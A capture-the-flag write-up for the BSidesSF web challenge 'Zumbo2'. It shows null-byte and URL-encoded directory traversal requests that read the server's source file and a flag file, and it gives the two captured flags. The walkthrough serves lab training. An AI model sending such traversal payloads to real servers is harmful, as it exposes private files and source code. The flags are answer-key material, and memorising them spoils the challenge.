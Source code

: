 Challenge: Zumbo2 
----------------------------------------
Category: Web 
----------------------------------------
100 points 
----------------------------------------

```
Description:

Welcome to ZUMBOCOM....you can do anything at ZUMBOCOM.
Three flags await. Can you find them?

http://zumbo-8ac445b1.ctf.bsidessf.net
Stage 3 - coming soon!

```


We connect to the site.

<img src="./../files/site2.png">

```
We look at the source code and find hint: <!-- page: index.template, src: /code/server.py -->

We will try a traversal directory on /code/server.py.

http://zumbo-8ac445b1.ctf.bsidessf.net/../code/server.py (../) mutliple of 1, 2, 3 etc .... don't match!
[Errno 2] No such file or directory: u'code/server.py' 

redirection: on index.template

we test null byte %00:

http://zumbo-8ac445b1.ctf.bsidessf.net/%00/code/server.py
file() argument 1 must be encoded string without null bytes, not unicode
```
<img src="./../files/erreur_null_byte.png">

We have a problem with encoded string!!!!!
. => %2e
/ => %2f

We test with:
http://zumbo-8ac445b1.ctf.bsidessf.net/%2e%2e%2f%2e%2e/code/server.py

<img src="./../files/flag1.png">

 
Bingo we have the source code and first flag !!!!!!

FLAG: FIRST_FLAG_WASNT_HARD

and we have the location of the files !!!!!!

Connect to http://zumbo-8ac445b1.ctf.bsidessf.net/%2e%2e%2f%2e%2e/flag

<img src="./../files/flag2.png">


FLAG: RUNNER_ON_SECOND_BASE 
``` 
